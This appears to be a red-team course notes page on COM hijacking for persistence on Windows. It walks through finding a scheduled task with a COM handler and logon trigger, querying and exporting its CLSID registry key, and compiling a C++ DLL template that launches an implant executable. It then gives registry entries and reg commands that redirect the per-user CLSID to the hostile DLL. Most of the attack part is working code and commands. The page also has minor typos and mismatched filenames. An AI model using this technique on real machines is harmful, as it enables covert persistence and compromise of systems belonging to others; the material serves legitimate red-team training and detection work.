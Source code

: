 # COM Hijacking

## <mark style="color:red;">COM</mark>

> The Microsoft Component Object Model (COM) is an interface standard that allows the software components to interact and communicate with each other’s code without knowledge of their internal implementation.

#### In simple words, COM is a system that helps developers build libraries which can co-operate with other apps developed with other languages.

OM objects are identified by their globally unique identifiers (GUIDs) known as class identifiers (CLSIDs) and interface identifiers (IIDs) and they are registered in registry hives.&#x20;

The merged registry hive HKCR contains the combined information of HKCU and HKLM.

```
HKEY_CURRENT_USER\Software\Classes\<CLSID>  (Per-User)

HKEY_LOCAL_MACHINE\Software\Classes\<CLSID> (System-Wide)
```

{% hint style="info" %}
COM usually lives in a DLL, sometimes as a EXE.&#x20;

It can also live on a remote machine.
{% endhint %}

When COM is present as a DLL, the process of COM loading looks like this:

![](<../../../.gitbook/assets/image (34).png>)

When COM is a EXE file the process will look like this:

![](<../../../.gitbook/assets/image (29).png>)

and if the COM object is on a remote machine:

![](<../../../.gitbook/assets/image (22).png>)

## <mark style="color:red;">COM Hijacking</mark>

One way to hijack the COM is by modifying the registry key in `HKEY_CUTRRENT_USER.`

![](<../../../.gitbook/assets/image (47) (1).png>)

to find hijackable COM objects we can look in scheduled tasks:

```
schtasks /query /xml > c:\RTO\PERS\01.USER\tasks.xml
```

we are looking for 2 things, in the `<Exec>` section there should be something called `<ComHandler>` instead of a binary path and in the  `<Triggers>` section we want a `<LogonTrigger>`.&#x20;

look for `<ComHandler>` in the output file, this will point to a specific class ID.&#x20;

after finding a suitable handler:

![](<../../../.gitbook/assets/image (20).png>)

{% hint style="warning" %}
#### note that the delay here is 5 minutes.
{% endhint %}

query this ID in registry:

```
reg query "HKCR\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in current user:
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in local machine:
reg query "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
```

![](<../../../.gitbook/assets/image (48).png>)

#### so the key is in local machine hive, if we put something in current user we can hijack that COM object.

we can export the target registry key as 64 bit :&#x20;

```
reg export "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" c:\tsk-orig.reg /y /reg:64
```

the output is something like this:

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Windows\\System32\\WorkFoldersShell.dll"
```

then use this template for COM hijacking:

{% code title="wrkFolderShell.cpp" %}
```cpp
/*

 Red Team Operator course code template
 COM hijacking template
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <Windows.h>
#include <combaseapi.h>


BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;    
	case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

HRESULT STDAPI DllGetClassObject(__in REFCLSID rclsid,
								__in REFIID riid,
								__deref_out LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	return S_OK;  
} 



/*

typedef HRESULT(WINAPI * tDllGetClassObject)(REFCLSID rclsid, REFIID riid, LPVOID* ppv);
tDllGetClassObject pDllGetClassObject;

HRESULT STDAPI DllGetClassObject(REFCLSID rclsid,
								 REFIID riid,
								 LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	HMODULE hOrigDLL;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	hOrigDLL = LoadLibrary("C:\\Windows\\System32\\WorkFoldersShell.dll");
	pDllGetClassObject = (tDllGetClassObject) GetProcAddress(hOrigDLL, "DllGetClassObject");
	if (!pDllGetClassObject)
		return S_FALSE;
	
	HRESULT hRes = pDllGetClassObject(rclsid, riid, ppv);
	
	return hRes;
} 
*/cpp
```
{% endcode %}

{% code title="wrkFolderShell.def" %}
```cpp
LIBRARY
EXPORTS
  DllGetClassObject PRIVATE
```
{% endcode %}

compile it with:

{% code title="compile.bat" %}
```batch
@ECHO OFF

cl.exe /W0 /D_USRDLL /D_WINDLL wrkFoldersShell.cpp wrkFoldersShell.def /MT /link /DLL /OUT:wrkFoldersShell.dll
```
{% endcode %}

```
compile.bat
```

![](<../../../.gitbook/assets/image (45).png>)

now the DLL is ready, we should implant it in the registry.

change the original key to `CURRENT_USER` and change the path to DLL:

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Users\rto\Desktop\\WorkFoldersShell.dll"
```

save the new registry then import it to the hive.

```
reg import c:\tsk.reg /reg:64
```

check out:

```
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InProcServer32" /reg:64
```

![](<../../../.gitbook/assets/image (49).png>)

now we have to wait for the user to relogin or reboot the machine.

## <mark style="color:red;">Resources</mark>

{% embed url="https://cyberstruggle.org/com-hijacking-for-persistence" %}

{% embed url="https://attackiq.com/2020/03/26/component-object-model-hijacking" %}

{% embed url="https://pentestlab.blog/2020/05/20/persistence-com-hijacking" %}
